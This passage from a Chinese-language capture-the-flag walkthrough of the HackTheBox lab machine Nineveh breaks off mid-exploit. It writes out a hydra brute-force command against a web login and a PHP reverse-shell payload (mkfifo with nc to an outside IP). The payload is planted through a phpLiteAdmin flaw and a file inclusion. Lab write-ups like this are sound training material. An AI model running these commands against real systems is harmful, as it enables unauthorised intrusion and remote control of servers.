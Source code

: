 `hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password" -vV -I`

![]({{ site.url }}/assets/Nineveh_43.assets/20201123101941964_1018306116.png)

`password123`

![]({{ site.url }}/assets/Nineveh_43.assets/20201123101559961_318356107.png)

登陆成功

![]({{ site.url }}/assets/Nineveh_43.assets/20201123102032881_1373708669.png)

24044

根据漏洞信息，我们可以简单的通过新建db的方式在服务器生成我们想要的php文件，同时使用80端口的lfi对我们生成对shell php文件进行包含，即可获得shell

已经存在对test数据库 目录为/var/tmp/test，我们生成的php也会在/var/tmp目录下

![]({{ site.url }}/assets/Nineveh_43.assets/20201123101812908_1723337315.png)

因为这个太简单了就跳过测试的部分，正常应该先新建测试的php，测试包含，看能不能形成完整利用，但是这个机器做到这里，已经没有悬念了，直接利用

新建数据库evil.php

![]({{ site.url }}/assets/Nineveh_43.assets/20201123102728929_324910986.png)

![]({{ site.url }}/assets/Nineveh_43.assets/20201123102837959_1875511028.png)

目录暴露为/var/tmp/evil.php

为evil新建表

![]({{ site.url }}/assets/Nineveh_43.assets/20201123103025925_948876930.png)

增加数据，填入payload

![]({{ site.url }}/assets/Nineveh_43.assets/20201123103210702_560999888.png)

`<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.30 1337 >/tmp/f"); ?>`

![]({{ site.url }}/assets/Nineveh_43.assets/20201123104356224_1271907286.png)

建立好监听

![]({{ site.url }}/assets/Nineveh_43.assets/20201123104454977_893533564.png)

无法成功包含。

经过反复测试包含时必须含有ninevehNotes的字样，才能正常执行

![]({{ site.url }}/assets/Nineveh_43.assets/20201123105020150_265466677.png)



rename database
